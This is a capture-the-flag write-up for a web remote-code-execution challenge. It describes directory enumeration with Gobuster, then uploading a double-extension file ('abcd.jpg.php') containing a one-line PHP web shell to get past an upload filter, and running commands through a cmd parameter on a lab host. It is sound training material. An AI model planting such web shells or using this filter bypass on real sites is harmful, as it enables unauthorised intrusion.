 # C78 - RCE 1

## CATEGORY

Web - RCE

## Challenge

If the web application is suceptible to certain types of web attacks, there may be more to it. Find out if there are other ways to find information in the web application.

The flag will appear in the following format: HTX{String}

## Hint(s)

None used.

## Solution

We first run Gobuster on the original site, to get a path /vendor and /management. We use the /vendor path to upload a file named `abcd.jpg.php` which contains the php code `<?php system($_GET['cmd']);?>`.

This lets us bypass the image upload filter (which apparently only checks for the `.jpg` extension) as well as allow us to perform RCE wtih ls, cat and the likes appended to the end.

The final filepath of our RCE exploit is uploaded to `10.8.201.110/HTXIC/vendor/images/abcd.jpg.php` and we can run RCE code by adding a `?cmd=<command>` parameter at the end like this: `10.8.201.110/HTXIC/vendor/images/abcd.jpg.php?cmd=ls -la`, which allows us to find the flag by traversing the file system.

## Flag

- Did not take down
